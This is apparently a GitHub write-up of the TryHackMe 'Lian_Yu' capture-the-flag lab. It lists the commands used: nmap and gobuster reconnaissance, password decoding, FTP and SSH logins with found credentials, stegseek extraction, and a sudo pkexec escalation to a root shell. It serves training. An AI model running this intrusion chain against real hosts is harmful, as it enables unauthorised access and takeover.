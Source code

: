 # Lian_yu-CTF

https://tryhackme.com/room/lianyu

**Use nmap to scan for open ports: sudo nmap -sS -sC -sV 10.10.78.215** 

	PORT    STATE SERVICE VERSION

	21/tcp  open  ftp     vsftpd 3.0.2

	22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)

	80/tcp  open  http    Apache httpd

	111/tcp open  rpcbind 2-4 (RPC #100000)

**Use gobuster to scan for directories: gobuster -t 100 dir -u http://10.10.78.215/ -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt**

	http://10.10.78.215/island               (Status: 301) [Size: 235] [--> http://10.10.78.215/island/]

Head to the page and take note of the hidden password by inspecting page source 

**Use gobuster again to find for more hidden locations inside the /island :** 

**gobuster -t 100 dir -u http://10.10.78.215/island -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt**

	http://10.10.78.215/island/2100  

Head to the page and inspect the source code , a clue is given:

	<!-- you can avail your .ticket here but how?   -->

**Use gobuster agian with the extension .ticket: gobuster -t 100 dir -u http://10.10.78.215/island/2100 -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .ticket

	http://10.10.78.215/island/2100/green_arrow.ticket

Head to the link to find out a password

**Use cyberchef , from base58 to decode the password** 

Login to the ftp server with the user as codeword *white text* and password from the cyberchef conversion 

ls the FTP server and the following files will be found:

	-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
	-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
	-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
 
 get all of the above files

*Explore around the FTP server and you will find another user : slade *potential user for ssh*

**Use stegseek aa.jpg to unlock aa.jpg file**

Two files were found:

	passwd.txt

	shado

*shado file contains the password for SSH*

login via ssh : sudo ssh slade@10.10.78.215

cat user.txt to find the first flag 

sudo -l :

	(root) PASSWD: /usr/bin/pkexec

**sudo /usr/bin/pkexec /bin/sh** to gain a shell

root access in gained

cat root.txt to get the final flag

